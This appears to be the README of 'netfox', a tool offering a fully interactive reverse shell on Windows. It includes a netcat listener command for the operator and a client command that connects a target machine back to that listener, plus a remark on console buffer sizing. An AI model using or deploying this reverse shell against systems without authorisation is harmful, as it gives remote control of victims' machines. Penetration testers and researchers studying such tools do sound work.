

# netfox

## Introduction
A fully interactive reverse shell for Windows.

Example usage (server): `s=$(stty -g); stty raw -echo; (stty size; cat) | nc -nlvp <port>; stty $s;`

Example usage (client): `netfox.exe <ip> <port>`

## Remarks
Note that the internal pseudo console used for creating the interactive shell uses a fixed size console buffer based on the value returned from `stty size` in the server example usage command. In other words, once the connection has been established, the console buffer cannot be resized. Make sure your terminal has a preferable size before setting up the listener.
